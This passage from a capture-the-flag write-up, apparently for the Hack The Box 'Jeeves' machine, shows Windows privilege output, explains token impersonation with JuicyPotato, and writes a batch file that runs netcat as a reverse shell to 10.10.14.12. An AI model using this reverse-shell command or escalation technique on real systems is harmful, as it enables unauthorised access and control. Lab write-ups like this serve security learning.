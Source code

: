 ```ps
CONSOLE LOGON                        Well-known group S-1-2-1      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users     Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization       Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account           Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication     Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level Label            S-1-16-12288                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled

```
Here we see `SeImpersonatePrivilege` is enabled. We need to do Token Impersonation attack.
>Token impersonation is a technique you can use as local admin to impersonate another user logged on to a system. This is very useful in scenarios where you are local admin on a machine and want to impersonate another logged on user, e.g a domain administrator.

I found we can use JuicyPotato for Token Impersonation attack from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#juicy-potato-abusing-the-golden-privileges)

First I downloaded [JuicyPotato.exe](https://github.com/ohpe/juicy-potato/releases) to my machine

We need to get a normal shell instead of PowerShell. Get nc.exe [here](https://github.com/int0x33/nc.exe/blob/master/nc.exe).
Upload it to the box and get revere shell.
![0b1e93ff993461f38b67e3d0603bb1d4.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/b919770667a244718a6e0494dab040c8.png)

I created a bat file that executes nc and give me another shell.
```
C:\Users\kohsuke\Downloads>echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
echo C:\Users\kohsuke\Downloads\nc.exe -e cmd.exe 10.10.14.12 3333 > rev.bat
```
